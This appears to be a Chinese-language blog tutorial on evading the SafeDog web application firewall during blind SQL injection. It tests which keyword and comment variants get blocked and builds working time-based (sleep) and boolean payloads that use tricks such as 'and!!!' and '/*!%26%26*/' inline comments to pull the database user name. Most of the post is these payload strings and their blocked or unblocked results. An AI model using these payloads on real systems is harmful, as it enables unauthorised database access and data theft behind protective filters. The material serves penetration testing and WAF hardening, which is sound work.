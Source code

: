 # 0x00 延时过狗

盲注过狗相对联合注入来说，感觉上是更简单，我们先来试试时间盲注把，比布尔稍稍灵活一点

```
 if(1,1,1) 不拦截
 a if(1,1,1) 不拦截
 and if(1,1,1) 拦截
 | if(1,1,1) 不拦截
 || if(1,1,1) 拦截
 && if(1,1,1) 拦截
/*!and*/ if(1,1,1) 拦截
 /*!11440and*/ if(1,1,1) 不拦截
 andaif(1,1,1) 不拦截

```

通过上面的测试我们其实可以很简单的看出来 他是拦截的 xx if 这个语句，其中xx 为and 和 or 这2个词有点敏感，但是绕过还是可以的

通过上一章的测试语句 发现版本为 11440的 内联注释直接放行，咳咳这样后面就直接注入，感觉并不是我们这一章想要的，我们这一章来试试不用内联注释内不内绕过

查阅乌云知识库发现一个小知识点 `and!!!1=1 `  and后面可以接上奇数个特殊的字符包括不限于`! ~ & -` 其他还可以自己测试 那么我们的payload就能构造出来了


```
and!!!if((substr((select hex(user/**/(/*!*/))),1,1)>1),sleep/**/(/*!5*/),1)

```

系统函数怎绕过我就不多说了每一张就有




# 0x01 布尔过狗

布尔注入过狗只能说是相对来说最简单的吧，因为可以不使用条件语句，少了一个绕过点

```
and!!!substr((select unhex(hex(user/**/(/*!*/)))),1,1)='r' 拦截

and!!!substr((select unhex(hex(user/**/(/*!*/)))),1,1)=r 不拦截

and!!!substr((select unhex(hex(user/**/(/*!*/)))),1,1)=1 不拦截


```

上面忘了说的就是这个点 =r 这里 不能使用引号，那绕过他就很简单了 什么 HEX ASCII 都行,通过测试发现 使用布尔盲注 他的过滤真的很差，我们试试 把and 换成&&


```
and substr((select hex(user/**/(/*!*/))),1,1)>1 拦截

/*!and*/ substr((select hex(user/**/(/*!*/))),1,1)>1 拦截

%26%26 substr((select hex(user/**/(/*!*/))),1,1)>1 拦截

/*!%26%26*/ substr((select hex(user/**/(/*!*/))),1,1)>1 不拦截

```


# 0x02 文末

自己不测试 永远发现不了新东西

#### 本文如有错误，请及时提醒，避免误导他人

* author：404